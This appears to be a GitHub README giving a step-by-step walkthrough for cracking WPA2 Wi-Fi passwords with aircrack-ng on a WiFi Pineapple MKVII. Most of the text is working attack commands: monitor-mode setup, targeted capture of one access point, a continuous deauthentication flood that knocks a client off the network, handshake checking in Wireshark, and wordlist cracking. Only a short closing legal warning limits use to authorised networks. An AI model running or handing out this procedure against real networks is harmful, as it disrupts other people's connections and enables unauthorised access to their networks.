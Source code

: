 # Crack_WiFI_WPA2-via-WiFi_Pineapple_CLI
Cracking WPA2 using Aircrack-ng through WiFi Pineapple MKVII CLI

### Pre-requirements :

- Aircrack-ng : `sudo apt install aircrack-ng`
- WiFi Pineapple MKVII (or any other WiFi Adapter. TIP:Whenever you’re choosing an external Wi-Fi adapter, make sure that it supports both 2.4Ghz and 5Ghz band.

My setup
![Setup](Images/Setup.jpg)

### Terminal-1
  1. Detect your wireless network interface
<pre lang="markdown">iwconfig</pre>
![Setup](Images/iwconfig.png)

  2. If interface not in monitor mode Run:
<pre lang="markdown">airmon-ng start &lt;interface&gt;</pre>
![Setup](Images/start_Interface.png)

  3. Capture traffic
<pre lang="markdown">airodump-ng &lt;interface&gt</pre>
![Setup](Images/airodump.png)


  4. To set WiFi Pineapple at 5GHz Run:     
<pre lang="markdown">airmon-ng &lt;interface&gt channel 48;</pre>
![Setup](Images/enable_5g.png)


  5. Capture traffic 5GHz band
     <pre lang="markdown">airodump-ng &lt;interface&gt --channel 48</pre>

### Terminal-2

  6. select target and focus on one AP on a specific channel:
<pre lang="markdown">airodump-ng -c &lt;channel&gt; -w &lt;filename&gt; -d &lt;AP_BSSID&gt; &lt;interface&gt;</pre>

### Example:

<pre lang="markdown">airodump-ng -c2 -w capture_wpa2 -d 00:11:22:33:44:55 wlan3mon</pre>

### Explanation:
- **`-c 2`** → Specifies the Wi-Fi channel (replace with your target AP’s channel).
- **`-w capture_wpa2`** → Defines the output filename (`capture_wpa2.cap`).
- **`-d 00:11:22:33:44:55`** → Filters by target AP’s BSSID.
- **`wlan3mon`** → Your network interface in monitor mode.

Once executed, the `.cap` file will be created, which can be used for further analysis.

  ![Setup](Images/airodump_target.png)

### Terminal-3
  7. Send deauthentication packets to the target
     
<pre lang="markdown">aireplay-ng --deauth 0 -a &lt;BSSID/AP's MAC&gt; -c &lt;Target/Station MAC&gt; &lt;interface&gt;</pre>

  ![Setup](Images/deauth.png)

As packets are sent, the number of captured frames from the target increases. This continues until the device eventually gets disconnected, allowing you to capture the WPA/WPA2 handshake.
  ![Setup](Images/deauth_attack_in_progress.png)


  8. Capture handshake : it will be shown in the monitor if captured ! at Terminal-2.
  ![Setup](Images/captured_files.png)

  9. Now you got the handshake(terminal-2)
  10. Stop the process at terminal-2:
      >ctrl+c

### 🔍 Checking WPA2 Handshake in Wireshark
Once the handshake is captured, follow these steps to verify it:

#### Open the Captured File
Run the following command to open the `.cap` file in Wireshark:

```bash
wireshark capture_wpa2-01.cap
```

#### Apply a Filter
In Wireshark’s **filter bar**, enter the following filter and press **Enter**:

```plaintext
eapol
```

This filters out only **EAPOL (Extensible Authentication Protocol over LAN) packets**.

#### Verify the 4-Way Handshake
Look for **four EAPOL messages** exchanged between the client (station) and the AP (router):

- **Message 1** → Sent by AP to the client.
- **Message 2** → Client replies.
- **Message 3** → AP sends another message.
- **Message 4** → Final response from the client.

#### Confirm Success

- ✅ If **all 4 messages** are captured, you've successfully grabbed the handshake! 🎉
- ❌ If you see only **2 or 3 messages**, the handshake is incomplete, and you may need to retry.

![Setup](Images/wireshark.png)

### 🔓 Cracking the WPA2 Handshake
Once you have successfully captured the WPA2 handshake, you can attempt to crack the password using `aircrack-ng`.

#### Run the Following Command
Use a wordlist to attempt the password crack:

```bash
aircrack-ng -w [wordlist.txt] -b [BSSID] capture_wpa2-01.cap
```

- `-w [wordlist.txt]`: Path to your dictionary file (e.g., `rockyou.txt`).
- `-b [BSSID]`: The target network’s MAC address.
- `capture_wpa2-01.cap`: The file containing the captured handshake.
![Setup](Images/aircrack_com.png)



#### Wait for the Results
If the password is in the wordlist, `aircrack-ng` will reveal it. If not, you may need a more extensive wordlist or other cracking techniques.

![Setup](Images/aircrack.png)

## ⚠ Legal Warning
This script should **only** be used on networks you own or have **explicit permission** to test. Unauthorized use is a violation of **cybercrime laws**.

---




